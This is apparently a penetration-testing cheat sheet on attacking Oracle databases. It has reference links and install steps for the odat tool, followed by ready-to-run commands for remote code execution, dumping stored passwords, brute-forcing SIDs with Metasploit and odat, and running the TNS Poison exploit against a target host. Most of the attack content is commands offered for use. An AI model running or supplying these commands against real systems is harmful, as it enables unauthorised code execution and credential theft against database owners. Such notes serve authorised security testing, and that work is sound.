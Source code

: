 # Oracle

* [https://xakep.ru/2015/04/07/195-oracle-db/](https://xakep.ru/2015/04/07/195-oracle-db/)
* [https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)
* [https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)
* [http://www.red-database-security.com/wp/oracle_cheat.pdf](http://www.red-database-security.com/wp/oracle_cheat.pdf)




## odat

* [https://github.com/quentinhardy/odat/releases](https://github.com/quentinhardy/odat/releases/)
* [https://github.com/quentinhardy/odat#mind-map---odat--oracle-database-pentests](https://github.com/quentinhardy/odat#mind-map---odat--oracle-database-pentests)

Install manually (depreciated):

* [https://github.com/quentinhardy/odat#installation-optional-for-development-version](https://github.com/quentinhardy/odat#installation-optional-for-development-version)

```
$ git clone https://github.com/quentinhardy/odat ~/tools/odat && cd ~/tools/odat
$ git submodule init && git submodule update
$ sudo apt install libaio1 python3-dev alien python3-pip
$ wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-basic-19.6.0.0.0-1.x86_64.rpm
$ wget https://download.oracle.com/otn_software/linux/instantclient/19600/oracle-instantclient19.6-devel-19.6.0.0.0-1.x86_64.rpm
$ sudo alien --to-deb *.rpm
$ sudo dpkg -i *.deb
$ vi /etc/profile
...
export ORACLE_HOME=/usr/lib/oracle/19.6/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
...
$ pip3 install cx_Oracle
$ python3 odat.py -h
```

Code execution:

```
$ odat dbmsscheduler -s 10.10.13.37 -p 1521 -d <SID> -U sys -P 'Passw0rd!' --sysdba --exec '/usr/bin/python /tmp/1.py'
```

Passwords dumping:

```
$ odat passwordstealer -s 10.10.13.37 -p 1521 -d <SID> -U sys -P 'Passw0rd!' --sysdba --get-passwords
```



### TNS Poison

* [http://www.joxeankoret.com/download/tnspoison.pdf](http://www.joxeankoret.com/download/tnspoison.pdf)

{% embed url="https://youtu.be/0IKltOBXiII" %}

Check with Nmap:

```
$ sudo wget https://gist.githubusercontent.com/JukArkadiy/3d6cff222d1b87e963e7/raw/fbe6fe17a9bca6ce839544b7afb2276fff061d46/oracle-tns-poison.nse -O /usr/share/nmap/scripts/oracle-tns-poison.nse
$ sudo nmap -v -n -Pn -sV --script oracle-tns-poison.nse -oA CVE-2014-0160/nmap/tns-poison -p1521 10.10.13.37
```

Brute SID with MSF:

```
msf > use auxiliary/scanner/oracle/sid_brute
msf > set RHOSTS file:oracle.txt
msf > set THREADS 25
msf > set VERBOSE false
msf > run
```

Brute SID with odat:

```
$ odat sidguesser -s 10.10.13.37 -p 1521
```

Exploit with odat:

* [https://github.com/quentinhardy/odat/wiki/tnspoison](https://github.com/quentinhardy/odat/wiki/tnspoison)

```
$ odat tnspoison -s 10.10.13.37 -d <SID> --test-module
$ odat tnspoison -s 10.10.13.37 -d <SID> --poison
```

